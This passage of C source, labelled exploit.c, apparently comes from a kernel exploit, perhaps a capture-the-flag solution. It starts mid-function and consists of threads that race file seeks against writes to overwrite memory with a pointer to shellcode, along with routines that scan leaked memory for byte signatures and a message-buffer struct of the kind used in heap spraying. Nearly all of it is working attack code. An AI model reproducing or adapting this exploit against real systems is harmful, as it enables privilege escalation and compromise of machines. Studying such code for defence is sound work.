 ```exploit.c
  assert(fd != 0);
  while (SHOULDEND == 0)
  {
    sk_seek_zero();
  }
  return 0;
}

static void *targeter(void *arg) {
  while (SHOULDEND == 0) {
    sk_seek_abs(target_offset);
  }
  printf("[.] targeter finished\n");
}

static void *writer2(void *arg) {
  ulong cur;
  ulong value = ((ulong)shellcode) + 4;
  ulong written_value[4] = {value, value, value, value};
  ulong old = MAX_NOTE_SIZE;
  while (SHOULDEND == 0)
  {
    sk_seek_zero();
    int ret = write(fd, written_value, 8 * 4);
  }
  printf("[.] writer2 finished\n");
}

void print_curious(char *buf, size_t size)
{
  for (int ix = 0; ix != size / 8; ++ix)
  {
    long hoge = *((ulong *)buf + ix);
    if (hoge != 0)
    {
      printf("[+%x] %lx\n", ix * 8, hoge);
    }
  }
}

unsigned long find_signature(char *buf, size_t size) {
  unsigned signatures[4] = {0xa0, 0xc0, 0xb0, 0x20};
  int step = 0;
  for (int ix = 0; ix != size / 8; ++ix)
  {
    long hoge = *((ulong *)buf + ix);
    if((hoge&0xFF) == signatures[step]) {
      ++step;
    } else {
      step = 0;
    }
    if(step == 4) {
      return (ix - 3) * 8;
    }
  }
  return 0;
}

struct _msgbuf400
{
  long mtype;
  char mtext[0x400];
};
```